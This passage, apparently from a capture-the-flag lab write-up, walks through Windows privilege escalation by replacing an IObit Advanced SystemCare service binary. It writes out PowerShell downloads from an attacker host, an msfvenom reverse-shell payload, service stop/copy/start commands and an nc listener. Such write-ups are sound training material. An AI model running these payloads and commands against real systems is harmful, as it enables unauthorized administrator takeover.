 ```
cd C:\Users\Bill\Desktop

powershell -c wget "http://10.10.118.24/winPEAS.exe" -outfile "winPEAS.exe"
```

![](https://blog.razrsec.uk/content/images/2020/05/image-81.png)

winPEAS can then be executed by simply running: _winPEAS.exe_

Once winPEAS has run, it points us towards some unquoted paths and also provides us with the name of the service it is running:

![](https://blog.razrsec.uk/content/images/2020/05/image-82.png)

Now we can focus on escalating our privileges to Administrator.

To do so we will use _msfvenom_ to generate our payload, which will be a reverse shell in the form of a windows executable:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.118.24 LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```

![](https://blog.razrsec.uk/content/images/2020/05/image-83.png)

This can then be pulled to the system via PowerShell:

```
powershell -c wget "http://10.10.118.24/ASCService.exe" -outfile "ASCService.exe"
```

![](https://blog.razrsec.uk/content/images/2020/05/image-84.png)

We can then stop the legitimate service running and replace the application file with our malicious binary:

```
sc stop AdvancedSystemCareService9

copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```

![](https://blog.razrsec.uk/content/images/2020/05/image-85.png)

Before restarting the service, a listener needs to be set up on our local machine using the port referred to when creating the payload:

```
nc -lvnp 4443
```

With the listener now running, the service can be restarted on the target:

```
sc start AdvancedSystemCareService9
```

Once this command executes, a reverse shell will appear within the listener.

From here we can switch to the Administrator's Desktop directory and grab the _root.txt_ file:

![](https://blog.razrsec.uk/content/images/2020/05/image-86.png)
 
